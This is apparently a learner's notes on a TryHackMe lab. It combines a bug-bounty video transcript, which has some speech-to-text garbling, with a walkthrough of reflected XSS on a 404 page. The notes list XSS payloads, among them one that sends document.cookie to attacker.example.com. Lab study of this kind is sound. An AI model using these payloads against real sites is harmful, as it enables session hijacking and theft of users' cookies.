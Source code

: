 DOM based xss
https://tryhackme.com/room/nahamstore






---

1
00:00:00,180 --> 00:00:04,860
One of my favorite things to do when it comes out here looking for bugs in the Bugs bounty program is

2
00:00:05,040 --> 00:00:06,770
observing there for fore pages.

3
00:00:06,780 --> 00:00:09,000
So we're going to give it a invalid path.

4
00:00:09,580 --> 00:00:10,410
Let's actually give a test123.
![[Screenshot From 2025-03-25 15-21-35.png]]
![[Screenshot From 2025-03-25 15-22-47.png]]
6
00:00:11,940 --> 00:00:16,600
And it looks like it says, hey, we could not find /test123 .

7
00:00:16,650 --> 00:00:20,070
This is what we're giving it right now in the address bar to /test123

8
00:00:20,430 --> 00:00:22,970
And we're going to chase it and see where it shows. in dev tools(elements) 
![[Screenshot From 2025-03-25 15-24-09.png]]
9
00:00:23,010 --> 00:00:25,380
So it looks like we're in the page not found.

10
00:00:25,380 --> 00:00:28,350
We're in a div class, blah, blah.
/test123

12
00:00:30,990 --> 00:00:33,540
This is the only place we could actually find this.

13
00:00:33,870 --> 00:00:35,220
But can we add more characters?

14
00:00:35,370 --> 00:00:38,670
So what happens if I add the sign ( < ) right here. /test123<

15
00:00:39,030 --> 00:00:45,500
in dev tools in elements tab , Right click and HTML and it looks like this one is actually getting encoded and that we can't exploit it
![[Screenshot From 2025-03-25 15-26-36.png]]


17
00:00:45,660 --> 00:00:50,190
So it's a good indication that this one is not invulnerable, but it's good to know that, hey, they reflect

18
00:00:50,190 --> 00:00:52,940
text within the fore page.

19
00:00:52,980 --> 00:00:54,030
There's also more other tricks.

20
00:00:54,030 --> 00:00:56,330
You can, you can try adding a random parameter.

21
00:00:56,340 --> 00:01:00,990
So I'm going to put in a   `/test123?nahamsecparam=test456`

23
00:01:02,490 --> 00:01:05,850
This time I'm going to let this go when I look test456
![[Screenshot From 2025-03-25 15-29-46.png]]
24
00:01:06,330 --> 00:01:11,790
So it looks like whatever we put in the address bar, if it's not found, it's reflected within the

25
00:01:12,060 --> 00:01:12,840
body of this.

26
00:01:12,840 --> 00:01:16,260
So let's add another script tag maybe or something.
`/test123?nahamsecparam=test456<h1>test123`

27
00:01:16,740 --> 00:01:18,630
We just want to see if it's going to render it or not.

28
00:01:19,210 --> 00:01:21,810
And it was like somehow we were able to break the logic.
![[Pasted image 20250326105427.png]]
29
00:01:21,810 --> 00:01:27,510
So it looks like there is some filtering happening, but because of how they are filtering it, it completely

30
00:01:27,510 --> 00:01:30,090
ignored anything that was assigned to this fake parameter.

31
00:01:30,270 --> 00:01:35,340
And they let us actually inject this additional tag in there.

32
00:01:35,340 --> 00:01:39,720
So the next step is to make it into a JavaScript payload or in its payload.

33
00:01:40,030 --> 00:01:40,680
And you can do that.

34
00:01:40,680 --> 00:01:42,090
A number of words can use image.

35
00:01:42,090 --> 00:01:44,460
Can you script whatever one you want to use?

36
00:01:44,460 --> 00:01:52,320
My favorite go to is just an image source X on error equals alert, and that should give us an XSS.
`/test123?nahamsecparam=test456<img src=x onerror=alert()> 
also this is the encoded version 
`/test123?nahamsecparam=test456%3Cimg%20src%3Dx%20onerror%3Dalert()%3E`


37
00:01:52,500 --> 00:01:56,400
If you're not familiar with JavaScript, why this payload works is what's happening here is we're saying,

38
00:01:56,400 --> 00:02:02,220
hey, using JavaScript, I want you to load a image called X if this file doesn't exist.

39
00:02:02,490 --> 00:02:05,810
And I want you to give me an alert because there's an error.

40
00:02:05,820 --> 00:02:10,800
So if there's an error, this follows an exists Pop-Up Alert, which is a function within JavaScript.

41
00:02:11,300 --> 00:02:15,750
We can also do other stuff like document, location, document, cookie and so on.

---
JavaScript payload examples that incorporate additional DOM objects (such as document, location, and document.cookie) to demonstrate potential impacts. These payloads are intended for educational testing in controlled environments only:

1. **Exfiltrate Cookies via an Alert:**
    
    ```html
    <script>alert(document.cookie);</script>
    ```
    
    _This payload retrieves the document’s cookies and displays them in an alert box._
    
2. **Redirect the Browser to an External URL with Cookies:**
    
    ```html
    <script>location.href='https://attacker.example.com/steal?cookie=' + encodeURIComponent(document.cookie);</script>
    ```
    
    _This payload sends the document's cookies as a URL parameter to an external domain and redirects the browser there._
    
3. **Log Document Content:**
    
    ```html
    <script>console.log(document.documentElement.innerHTML);</script>
    ```
    
    _This payload logs the full HTML content of the page to the browser's console (for testing purposes)._
    
4. **Dynamic Content Injection:**
    
    ```html
    <script>
      document.body.innerHTML += "<div style='background:red;color:white;'>Injected Content: " + document.cookie + "</div>";
    </script>
    ```
    
    _This payload appends a new div element to the page's body that displays some text along with the document's cookies._
    

Remember:

- These payloads are for demonstration and testing only.
    
- Use them only in controlled environments and with proper authorization.
    
- Always ensure you have permission before testing or exploiting vulnerabilities.

---
42
00:02:15,750 --> 00:02:16,860
We'll cover these later on.

43
00:02:16,980 --> 00:02:21,210
It also gave us our session, which doesn't matter in this case because I'm not logged in.

44
00:02:21,220 --> 00:02:28,230
I'm not exploiting another user, but it is very handy to show a real impact, especially if you can

45
00:02:28,230 --> 00:02:29,970
actually store cookies from other users.

46
00:02:30,480 --> 00:02:31,380
So that was a good one.

47
00:02:31,670 --> 00:02:33,090
We know there's two XSS here.

48
00:02:33,330 --> 00:02:34,370
==We're on fire here.==

==49==
==00:02:34,650 --> 00:02:35,510==
==This is a good place.==

==50==
==00:02:35,520 --> 00:02:38,340==
==When you build momentum in bug bounties, you want to keep pushing.==

==51==
==00:02:38,340 --> 00:02:42,870==
==If you see a vulnerability type occurring more than once or twice, you want to keep digging through==

==52==
==00:02:42,870 --> 00:02:43,830==
==and finding more of those.==